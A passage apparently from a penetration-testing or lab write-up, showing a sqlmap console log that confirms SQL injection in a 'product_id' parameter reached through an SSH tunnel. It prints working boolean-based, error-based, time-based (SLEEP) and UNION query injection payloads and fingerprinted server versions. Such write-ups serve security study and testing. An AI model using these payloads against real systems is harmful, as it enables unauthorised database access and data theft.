 ```console
[21:48:43] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[21:48:43] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[21:48:44] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[21:48:44] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[21:49:05] [INFO] GET parameter 'product_id' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[21:49:05] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:49:05] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[21:49:05] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[21:49:06] [INFO] target URL appears to have 3 columns in query
[21:49:07] [INFO] GET parameter 'product_id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'product_id' is vulnerable. Do you want to keep testing the others
sqlmap identified the following injection point(s) with a total of 250 HTTP(s) requests:
---
Parameter: product_id (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: route=product/product&product_id=53 RLIKE (SELECT (CASE WHEN (7914=7914) THEN 53 ELSE 0x28 END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: route=product/product&product_id=53 AND (SELECT 8445 FROM(SELECT COUNT(*),CONCAT(0x717a707671,(SELECT (ELT(8445=8445,1))),0x716a626a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: route=product/product&product_id=53 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: route=product/product&product_id=53 UNION ALL SELECT NULL,NULL,CONCAT(0x717a707671,0x725662454c43554b68684f43466171746e51794c4a6d677568725856746f66754654414a6e635452,0x716a626a71)-- FTqd
---
[21:49:17] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.4.45, Nginx
back-end DBMS: MySQL >= 5.0
[21:49:17] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 82 times
[21:49:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/localhost'

[*] shutting down at 21:49:17
```

Awesome! The SSH Tunnel is working and sqlmap verified that the `product_id` parameter is indeed vulnerable to a blind sql inject.
